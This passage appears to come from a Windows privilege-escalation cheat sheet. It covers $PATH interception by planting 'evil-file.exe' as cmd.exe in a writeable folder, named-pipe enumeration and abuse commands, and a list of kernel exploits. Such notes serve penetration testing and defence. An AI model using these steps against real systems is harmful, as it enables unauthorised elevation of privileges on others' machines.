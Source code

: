 ### EoP - $PATH Interception

**Requirements:**

**PATH contains a writeable folder with low privileges.**

**The writeable folder is before the folder that contains the legitimate binary.**

**EXAMPLE:**

```
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system
$env:Path
```

```
# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"
```

```
# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```

**Because (in this example) "C:\Program Files\nodejs" is before "C:\WINDOWS\system32" on the**

**PATH variable, the next time the user runs "cmd.exe", our evil version in the nodejs folder will**

**run, instead of the legitimate one in the system32 folder.**

### EoP - Named Pipes

**1. Find named pipes: \[System.IO.Directory]::GetFiles("\\.\pipe")**

**2. Check named pipes DACL: pipesec.exe \<named\_pipe>**

**3. Reverse engineering software**

**4. Send data throught the named pipe : program.exe >\\.\pipe\StdOutPipe**

```
2>\\.\pipe\StdErrPipe
```

### EoP - Kernel Exploitation

**List of exploits kernel : \[https://tinyurl.com/24sucrsp)**

\#Security Bulletin #KB #Description #Operating System

**MS17-017 \[KB4013081] \[GDI Palette Objects Local Privilege Escalation] (windows**

**7/8)**

**CVE-2017-8464 \[LNK Remote Code Execution Vulnerability] (windows**

**10/8.1/7/2016/2010/2008)**
